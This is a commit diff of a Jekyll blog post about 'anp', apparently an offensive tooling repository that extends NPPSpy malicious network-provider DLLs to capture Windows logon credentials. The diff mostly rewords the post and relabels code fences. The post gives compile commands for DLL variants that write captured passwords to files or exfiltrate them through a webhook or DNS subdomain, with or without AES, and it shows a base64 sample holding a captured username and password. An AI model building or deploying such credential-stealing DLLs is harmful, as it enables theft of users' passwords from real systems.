

Before and after one commit to ricardojoserf/ricardojoserf.github.io, a Jekyll site: the page built from _posts/2025-4-16-anp.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 91% size, without its empty margins (118-1161 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown; grey boxes are pictures that could not be loaded.

Commit message:
Update 2025-4-16-anp.md

````diff
--- a/_posts/2025-4-16-anp.md
+++ b/_posts/2025-4-16-anp.md
@@ -4,7 +4,7 @@
 excerpt_separator: <!--more-->
 ---
 
-NPPSpy and NPPSPy2 are great tools to retrieve user credentials in many cases. In this repository, I will add some encryption and exfiltration methods to these tools by gtworek.
+NPPSpy and NPPSPy2 are great tools to retrieve user credentials. In this repository, I will add some extra functionality to them, such as encryption and different exfiltration techniques.
 
 <!--more-->
 
@@ -13,7 +13,7 @@
 
 <br>
 
-The original tools, NPPSpy and NPPSpy2, manipulate the authentication process by using a malicious DLL which helps offensive professionals capturing usernames and passwords before encryption. This is amazing when the system has enabled protections such as PPL or Credential Guard but the security software is not monitoring the creation/manipulation of registry keys (not so typical but it is interesting to check the Blue Team detects it).
+The original tools, NPPSpy and NPPSpy2, manipulate the authentication process by using a malicious DLL which helps offensive professionals capturing usernames and passwords before encryption. This is amazing when the system has enabled protections such as PPL or Credential Guard but the security software is not monitoring the creation/manipulation of registry keys (not so typical, but it is interesting to find if the Blue Team detects it!).
 
 anp ("another network provider") are tests to create Network Providers based on the mentioned tools by [gtworek](https://github.com/gtworek). All credit goes to the original author - I'm simply adding some functionality to explore what works best for me, but I thought it could be interesting for someone so I decided to make it public :)
 
@@ -37,11 +37,11 @@
 
 The default path is "C:\Windows\Task\default.txt" but you can customize it using the macro /DFILE_PATH:
 
-```powershell
+```
 cl /LD /DFILE_PATH=\"C:\\\\Windows\\\\Tasks\\\\custom_path.txt\" 1_textfile_base64.c crypt32.lib /link /OUT:anp.dll
 ```
 
-This creates a file with a content similar to:
+When a user updates its password, it creates a file with a content similar to:
 
 ```bash
 eyJ0aW1lc3RhbXAiOiIyMDI1LTA0LTE0IDEwOjI4OjM2Iiwib3BlcmF0aW9uIjoiUFdEX1VQREFURV9PTEQiLCJkb21haW4iOiJERVNLVE9QLTBONkc2OTYiLCJ1c2VybmFtZSI6InJpY2FyZG8iLCJwYXNzd29yZCI6InFxIn0=
@@ -61,7 +61,7 @@
 
 The default path is "C:\Windows\Task\default.txt" and the default AES password is "TEST1234", but you can customize it using the macros /DFILE_PATH and /DAES_PWD:
 
-```powershell
+```
 cl /LD /DFILE_PATH=\"C:\\\\Windows\\\\Tasks\\\\custom_path.txt\" /DAES_PWD=\"TEST1234\" 2_textfile_aes.c crypt32.lib advapi32.lib /link /OUT:anp.dll
 ```
 
@@ -92,7 +92,7 @@
 
 There is not a default webhook url, you have to set the value using the macro /DWEBHOOK_URL:
 
-```powershell
+```
 cl /LD /DWEBHOOK_URL=L\"https://...\" 3_webhook_base64.c crypt32.lib wininet.lib /link /OUT:anp.dll
 ```
 
@@ -106,7 +106,7 @@
 
 You have to set the webhook url value using the macro /DWEBHOOK_URL, the default AES password is "TEST1234" but you can customize it using /DAES_PWD:
 
-```powershell
+```
 cl /LD /DWEBHOOK_URL=L\"https://...\" /DAES_PWD=\"TEST1234\" 4_webhook_aes.c crypt32.lib wininet.lib advapi32.lib /link /OUT:anp.dll
 ```
 
@@ -123,7 +123,7 @@
 
 There is not a default subdomain, you have to set the value using the macro /DSUBDOMAIN:
 
-```powershell
+```
 cl /LD /DSUBDOMAIN=L\".SUBDOMAIN.DOMAIN.COM\" 5_dns_base64.c crypt32.lib /link /OUT:anp.dll
 ```
 
@@ -145,7 +145,7 @@
 
 You have to set the subdomain value using the macro /DSUBDOMAIN, the default AES password is "TEST1234" but you can customize it using /DAES_PWD:
 
-```powershell
+```
 cl /LD /DSUBDOMAIN=L\".SUBDOMAIN.DOMAIN.COM\" /DAES_PWD=\"TEST1234\" 6_dns_aes.c crypt32.lib advapi32.lib /link /OUT:anp.dll
 ```
 
````
Also changed, not shown: other parts of _posts/2025-4-16-anp.md (+1 -1 lines).
